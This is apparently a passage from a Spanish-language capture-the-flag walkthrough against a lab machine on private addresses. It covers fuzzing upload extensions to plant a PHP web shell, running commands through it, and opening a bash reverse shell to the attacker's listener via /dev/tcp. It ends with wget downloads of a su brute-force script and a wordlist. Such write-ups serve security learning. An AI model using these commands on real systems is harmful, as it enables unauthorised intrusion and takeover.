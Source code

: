 Una ves seleccionado el payload, Generamos un diccionario de tipo **Sniper** para probar todas estas extensiones:
```bash
_php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
```

Una ves completado lanzamos el ataque: **( Start Attack )** y revisando obtenemos la siguiente respuesta:
```bash
Content-Disposition: form-data; name="file_upload"; filename="cmd.inc"
```

El archivo con esta extension si es valido para el servidor:
```bash
<div class='alert alert-success mt-3'>Archivo subido con éxito.</div>
```

Asi que ahora recargamos esta ruta donde estan los archivos cargados:
```bash
http://172.17.0.2/uploads/cmd.phtml?cmd=whoami
```
### Intrusion
Ahora que tenemos ejecucion remota de comandos ganaremos acceso al sistema:
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.2/uploads/cmd.phtml?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
id # No reporta grupos especiales
sudo -l # No tenemos la password
find / -perm -4000 2>/dev/null # No reporta capabilities
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Realizaremos un ataque de fuerza bruta para lograr migrar al usuario: **( luisillo_o )** para el cual transferiremos dos herramientas a la maquina vicitma:
Nos ponemos en escucha en donde tenemos estas herramientas:
```bash
python3 -m http.server 80
```

Nos transferimos estas dos herramientas en el directorio: **( /tmp )**
```bash
wget http://172.17.0.1/Linux-Su-Force.sh
wget http://172.17.0.1/rockyou.txt
```
